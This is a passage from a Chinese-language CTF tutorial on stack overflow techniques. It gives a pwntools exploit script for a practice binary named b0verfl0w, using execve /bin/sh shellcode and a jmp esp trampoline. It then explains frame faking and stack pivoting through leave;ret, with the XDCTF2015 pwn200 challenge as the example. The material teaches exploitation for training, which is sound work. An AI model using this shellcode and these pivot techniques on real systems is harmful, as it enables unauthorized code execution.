 ![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
 
##### exp二 
 
 ```java 
  from pwn import *
sh = process('./b0verfl0w')
context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (
    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp

sh.sendline(payload)
# gdb.attach(sh)
sh.interactive()

  ``` 
  
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
最后推荐一个工具 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
 
### frame faking 
顾名思义，frame faking就是另外起一个虚假的栈帧来控制程序的执行流，与栈迁移有异曲同工之处。为什么要这样呢？由于原来溢出空间大小不足以承载payload，解决溢出空间不足的问题。比如： 
 
 ```java 
  int vuln(){
    char buf[80];
    return read(0, buf, 100);
}

  ``` 
  
上面这个例子的溢出空间是0x14，不足以承载我们构造的payload，既然空间不足，我们就创造一个空间足够大的新的栈空间。或者如2018 安恒杯 over一样，溢出空间只够覆盖rbp和ret_addr，很极限的操作。后面的介绍中将会引出两种构造方式，一种是边读边迁，一种是读完再迁，根据不同的场景进行构造，多样地去理解这一方法。 
 
### 思路一 
第一种构造方式：边读边迁，然后以XDCTF2015的pwn200为例子进行实践，抛弃原来的正常的解法。虽然利用这种方法显得没必要，多此一举了，但是可以增加理解。首先明确这是一个递进的过程。怎么识别我们构造的栈是一个新的栈空间呢？那就需要ESP和EBP来配合，EBP和ESP之间的内存单元就是程序可识别的栈空间。那么怎么让ESP和ESP去指向新的栈空间呢？基于栈溢出，我们能够知道，在栈溢出中，影响到的寄存器中有EBP，ESP，那么我们就可以通过构造payload来实现ESP和ESP的值。其实这个本质在于怎么去控制ESP，我们可以使用控制EBP来协助，因为leave;ret指令可以使用EBP来间接控制ESP。 
那么怎么去执行payload呢？通过rop控制eip寄存器的值。可以发现，无论我们怎么做，最基本的就是控制EBP（栈）和控制EIP（执行流）。关键指令： 
一、第一次调用leave指令，为了形成fake_ebp，这是原由代码段自带的部分，正常的程序执行流，leave也就是move esp, ebp; pop ebp，这就可以改变EBP的值为fake_ebp，完成第一步的迁移操作。 
二、第二次调用leave指令，在栈中构造的gadget中的leave，leave=>move esp, ebp; pop ebp，通过ebp的值来改变esp的值，使得esp的值也是fake_ebp，完成第二步的迁移操作，至此，栈迁移工作完成。 
三、第二次调用leave指令后，需要再调用ret指令，控制程序的执行流，从而执行新栈上的payload。边读边迁，顾名思义，两个过程是一块进行的，先控制ebp确定fake_ebp，然后在fake_ebp中写入payload，最后控制esp和eip执行payload。下面我们看一下具体的利用过程： 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
执行move esp, ebp，使得esp指向1处，然后执行pop ebp;此时ebp寄存器就会执行fake_ebp 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
执行ret时，eip执行read函数，此时就会执行read函数，我们传入一个fake_ebp_2的十六进制（这个是作为栈底地址），此时在fake_ebp地址处（ESP指向地址）的值为fake_ebp_2。 
read函数执行返回后执行leave_ret命令，这里可以分为三个命令来执行。3-1时，EBP和ESP都指向了fake_ebp的位置 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 